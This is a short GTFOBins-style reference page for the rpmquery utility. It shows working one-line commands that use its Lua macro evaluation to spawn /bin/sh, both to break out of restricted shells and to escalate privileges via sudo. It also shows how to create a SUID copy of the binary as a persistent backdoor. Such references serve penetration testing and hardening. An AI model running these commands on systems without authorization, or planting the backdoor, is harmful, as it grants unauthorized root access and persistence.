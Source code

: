 # GTFOBin: rpmquery

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
rpmquery --eval '%{lua:posix.exec("/bin/sh")}'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo rpmquery --eval '%{lua:posix.exec("/bin/sh")}'
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which rpmquery) .

./rpmquery --eval '%{lua:os.execute("/bin/sh")}'
```